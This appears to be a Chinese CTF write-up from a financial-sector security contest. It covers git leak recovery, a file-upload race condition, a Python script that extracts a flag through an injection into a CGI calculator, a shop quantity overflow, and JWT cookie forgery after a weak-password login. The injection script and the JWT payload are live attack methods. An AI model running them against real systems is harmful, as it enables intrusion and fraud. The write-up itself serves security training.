










# CTF 金融行业网络安全 笔记

babygit
从题目名称可以看出这个是git信息泄露的题目。
<https://github.com/BugScanTeam/GitHack>
利用git源码恢复工具进行恢复

使用git log命令查看版本信息，然后使用git checkout恢复到上一个版本。


speed
第二题是一道条件竞争漏洞的题目，注册后进入后台只有一个文件上传点，上传正常图片可以上传成功，但是上传.php文件会提示上传文件后缀非法,已删除所以我们要抢在文件被删除前访问才能获得flag。



## calculate

<https://xz.aliyun.com/t/2456>
修改下源码即可

```python
import requests, re
def calc(v1, v2, op, s):
u = "http://203.0.113.1:8888/cgi-bin/calculate.py?"
payload = dict(value1=v1, value2=v2, op=op, source=s, t=t)
# print payload
r = requests.get(u, params=payload)
# print r.url
res = re.findall("<pre>\n>>>>([\s\S]*)\n>>> <\/pre>",
r.content)[0].split('\n')[1]
assert (res != 'Invalid')
return res == 'True'
# print r.content
def check(mid):
s = flag + chr(mid)
return calc(v1, v2, op, s)
def bin_search(seq=xrange(0x20, 0x80), lo=0, hi=None):
assert (lo >= 0)
if hi == None: hi = len(seq)
while lo < hi:
mid = (lo + hi) // 2
# print lo, mid, hi, "\t",
if check(seq[mid]): hi = mid
else: lo = mid + 1
return seq[lo]
flag = ''
v1, v2, op, s , t = 'x',"+FLAG<value1+source#", "+'", '',"1a69aa60224a7095ececda5c7c6834fc"
while (1):
flag += chr(bin_search() - 1)
print flag
```

babyshop
随便购买点商品，然后在卖出的时候修改商品数量让它溢出。

Bake cookies
这题从名字可以看出是有关于COOKIE的,从标题看到JWT,JSON Web Token


进去界面猜测账号密码，使用guest/guest登录成功了…弱口令,进去后抓包看COOKIE。

明显是JSON Web Token,访问 <https://jwt.io> 去解密


修改为
{
“name”: “admin”,
“admin”: “true”
}
后果COOKIE后提交发现报错信息貌似返回了密钥

填写上密钥重新生成下提交


